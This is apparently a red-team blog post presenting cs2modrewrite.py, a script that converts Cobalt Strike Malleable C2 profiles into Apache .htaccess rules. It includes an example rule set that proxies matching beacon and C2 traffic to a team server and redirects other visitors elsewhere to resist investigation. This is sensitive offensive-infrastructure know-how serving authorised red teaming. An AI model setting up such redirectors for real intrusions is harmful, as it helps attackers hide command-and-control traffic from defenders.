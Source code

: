 # Automating Apache mod_rewrite and Cobalt Strike Malleable C2 Profiles

**Joe Vest | February 1, 2018 | Tweet This Post: [:fontawesome-brands-twitter:](https://twitter.com/intent/tweet?url=http://threatexpress.com/blogs/2018/02/automating-cobalt-strike-profiles-apache-mod_rewrite-htaccess-files-intelligent-c2-redirection/&text=Automating Cobalt Strike profiles with Apache mod_rewrite for intelligent redirection)**

![][1]

This post describes a script I created to convert a Cobalt Strike Malleable C2 profile to corresponding mod_rewrite rules to enable intelligent HTTP proxying for redirection of C2 traffic. The script automates the [process][2] described by well known redteamer and now co-worker – Jeff Dimmock ([@bluscreenofjeff][3]). Intelligent use of C2 redirectors is core to a mature C2 architecture that can withstand some gentle investigation and prodding. Developing Cobalt Strike compatible mod_rewrite rules to redirect traffic is not incredibly difficult, but there are a few Apache "gotchas" and the process can be error prone when dealing with multiple C2 profiles. Automation improves consistency and reduces the time needed to spin-up, test, and troubleshoot a unique and layered C2 infrastructure. It is always nice to start from a known good.

## Highlights of cs2modrewrite.py

- Rewrite Rules based on valid C2 URIs (HTTP GET, POST, and Stager) and specified User-Agent string. **Result**: Only requests to valid C2 URIs with a specified UA string will be proxied to the Team Server by default.
- Uses a custom Malleable C2 profile to build a _.htaccess_ file with corresponding mod_rewrite rules
- Supports the most recent Cobalt Strike 3.10 profile features
- HTTP or HTTPS proxying to the Cobalt Strike Team Server
- HTTP 302 Redirection to a Legitimate Site for Non-Matching Requests

## Quick Start

## Usage

The script can be found at:

[github - cs2modrewrite](https://github.com/threatexpress/cs2modrewrite)

### Arguments

```
cs2modrewrite.py [-h] [-i INPUTFILE] [-c C2SERVER] [-d DESTINATION]

Converts Cobalt Strike profiles to Apache mod_rewrite .htaccess file format by
using the User-Agent and URI Endpoint to create rewrite rules. Make sure the
profile passes a c2lint check before running this sript.

optional arguments:
    -h, --help      show this help message and exit
    -i INPUTFILE    C2 Profile file
    -c C2SERVER     C2 Server (http://teamserver)
    -d DESTINATION  (Optional) Redirect to this URL (http://google.com)
```

### Example Output

```
#### Save the following as .htaccess in the root web directory

########################################
## .htaccess START
RewriteEngine On

## (Optional)
## Scripted Web Delivery
## Uncomment and adjust as needed
#RewriteCond %{REQUEST_URI} ^/css/style1.css?$
#RewriteCond %{HTTP_USER_AGENT} ^$
#RewriteRule ^.*$ "http://TEAMSERVER%{REQUEST_URI}" [P,L]

## Default Beacon Staging Support (/1234)
RewriteCond %{REQUEST_URI} ^/..../?$
RewriteCond %{HTTP_USER_AGENT} "Mozilla/5.0 (Windows; U; MSIE 7.0; Windows NT 5.2) Java/1.5.0_08"
RewriteRule ^.*$ "http://TEAMSERVER%{REQUEST_URI}" [P,L]

## C2 Traffic (HTTP-GET, HTTP-POST, HTTP-STAGER URIs)
## Logic: If a requested URI AND the User-Agent matches, proxy the connection to the Teamserver
## Consider adding other HTTP checks to fine tune the check.  (HTTP Cookie, HTTP Referer, HTTP Query String, etc)
## Refer to http://httpd.apache.org/docs/current/mod/mod_rewrite.html
## Profile URIs
RewriteCond %{REQUEST_URI} ^(/include/template/isx.php.*|/wp06/wp-includes/po.php.*|/wp08/wp-includes/dtcla.php.*|/modules/mod_search.php.*|/blog/wp-includes/pomo/src.php.*|/includes/phpmailer/class.pop3.php.*|/api/516280565958.*|/api/516280565959.*)$
## Profile UserAgent
RewriteCond %{HTTP_USER_AGENT} "Mozilla/5.0 (Windows; U; MSIE 7.0; Windows NT 5.2) Java/1.5.0_08"
RewriteRule ^.*$ "https://TEAMSERVER%{REQUEST_URI}" [P,L]

## Redirect all other traffic here
RewriteRule ^.*$ HTTPS://GOHERE/? [L,R=302]

## .htaccess END
########################################
```

## What does this .htaccess do?

### Staging

When Apache receives an HTTP request with the User-Agent Mozilla/5.0 (Windows; U; MSIE 7.0; Windows NT 5.2) Java/1.5.0_080 and a 4 character URI, it proxies the traffic to the teamserver.

### C2 Traffic

When Apache receives an HTTP request with the User-Agent Mozilla/5.0 (Windows; U; MSIE 7.0; Windows NT 5.2) Java/1.5.0_080 and one of the following URIs

`(/include/template/isx.php._|/wp06/wp-includes/po.php._|/wp08/wp-includes/dtcla.php,/modules/mod_search.php,/blog/wp-includes/pomo/src.php,/includes/phpmailer/class.pop3.php,/api/516280565958,/api/516280565959)`

it proxies the traffic to the teamserver.

### Catch All

Any traffic that doesn't match a rule redirects the request using an HTTP 302

## Summary

**TLDR** The python script _cs2modrewrite.py_ automates the process of creating a Malleable C2 compatible .htaccess file for intelligent redirection with Apache mod_rewrite. Try it out and feel free to give feedback and suggestions at [@joevest][4] on Twitter and on the ThreatExpress GitHub [repo][5].

For more details on developing C2 architecture, check out the Red Team Infrastructure [Wiki][6].

## References

- https://bluescreenofjeff.com/2016-06-28-cobalt-strike-http-c2-redirectors-with-apache-mod_rewrite/
- https://twitter.com/bluscreenofjeff
- https://github.com/threatexpress/cs2modrewrite
- https://github.com/bluscreenofjeff/Red-Team-Infrastructure-Wiki

[1]: /img/cs2modrewriteargs.png
[2]: https://bluescreenofjeff.com/2016-06-28-cobalt-strike-http-c2-redirectors-with-apache-mod_rewrite/
[3]: https://twitter.com/bluscreenofjeff
[4]: https://www.twitter.com/joevest
[5]: https://github.com/threatexpress/cs2modrewrite
[6]: https://github.com/bluscreenofjeff/Red-Team-Infrastructure-Wiki
